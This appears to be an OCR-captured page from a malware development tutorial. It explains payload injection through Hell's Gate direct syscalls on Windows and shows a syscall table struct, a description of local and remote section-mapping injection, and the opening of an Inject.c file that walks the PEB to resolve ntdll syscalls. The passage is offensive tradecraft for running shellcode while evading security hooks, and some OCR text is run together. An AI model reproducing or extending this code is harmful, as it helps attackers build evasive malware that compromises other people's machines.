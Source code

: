 
```
typedef struct _VX_TABLE {

	VX_TABLE_ENTRY NtCreateSection;
	VX_TABLE_ENTRY NtMapViewOfSection;
	VX_TABLE_ENTRY NtUnmapViewOfSection;
	VX_TABLE_ENTRY NtClose;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;

} VX_TABLE, * PVX_TABLE;


```
### **Payload Injection Via Hell's Gate**

With Hell's Gate successfully set up, the payload injection implementation can be made. A new file will be created, `Inject.c` which is shown below.

The following points briefly explain the `Inject.c` file:

* `InitializeSyscalls` - This function initializes the global `g_Sys` variable of type `VX_TABLE` to be used later on.
* `RemoteMappingInjectionViaSyscalls` - This function supports both local and remote mapping injection via the `bLocal` parameter which is set to `TRUE` to inject the payload locally, or `FALSE` for remote injection.
	+ If the `bLocal` parameter is set to `TRUE`, the `dwLocalFlag` variable will be set to `PAGE_EXECUTE_READWRITE` to be suitable for local payload execution, and the second `NtMapViewOfSection` will be avoided. But if `bLocal` is `FALSE`, the `dwLocalFlag` will remain `PAGE_READWRITE` and the function will run the second `NtMapViewOfSection` call to allocate memory remotely.
	+ The `pExecAddress` variable is used to save the base address of the injected payload. It is equal to the base address of the locally injected payload (`pLocalAddress`) if the function is set to execute the payload locally, or the remote injected payload base address (`pRemoteAddress`) if the function is set to execute the payload remotely.
	+ The `pExecAddress` variable will be then passed to the `NtCreateThreadEx` syscall to execute the payload whenever it was.

**Inject.c**


```
#include <Windows.h>#include <stdio.h>#include "Structs.h"#include "Common.h"// global `VX_TABLE` structure
VX_TABLE 	g_Sys = { 0 };



BOOL InitializeSyscalls() {

	// Get the PEB
	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return FALSE;

	// Get NTDLL module
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Get the EAT of NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return FALSE;

	g_Sys.NtCreateSection.uHash       = NtCreateSection_JOAA;
```